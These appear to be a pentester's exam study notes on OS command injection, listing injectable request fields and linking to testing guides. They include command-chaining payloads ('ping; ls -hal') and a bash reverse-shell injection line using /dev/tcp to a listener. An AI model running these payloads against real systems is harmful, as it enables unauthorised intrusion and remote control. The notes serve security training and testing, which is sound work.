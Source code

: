 get requests

post requests

cookies

host, referer, and User-Agent are all injectible

```
insert links here

```

### try command injection

https://www.owasp.org/index.php/Testing_for_Command_Injection_(OTG-INPVAL-013)

Important link that must be read during the exam. 
https://www.contextis.com/blog/data-exfiltration-via-blind-os-command-injection

```
ping; ls -hal
ping | ls -hal

tools for command injection

grep pattern input.txt | sort | uniq -c

chown
chmod
cut
sed
awk

Don't just try linux commands but also try windows command injections

go into enumeration mode pulling blind files

```

### try command injection with netcat shell

setup lister

```
;bash -i >& /dev/tcp/*localhost*/1234 0>&1

Try other ways to execute one liner shells with command injection 

```
### using burp for command injection

https://support.portswigger.net/customer/en/portal/articles/2590661-using-burp-to-test-for-os-command-injection-vulnerabilities

### plecost scan
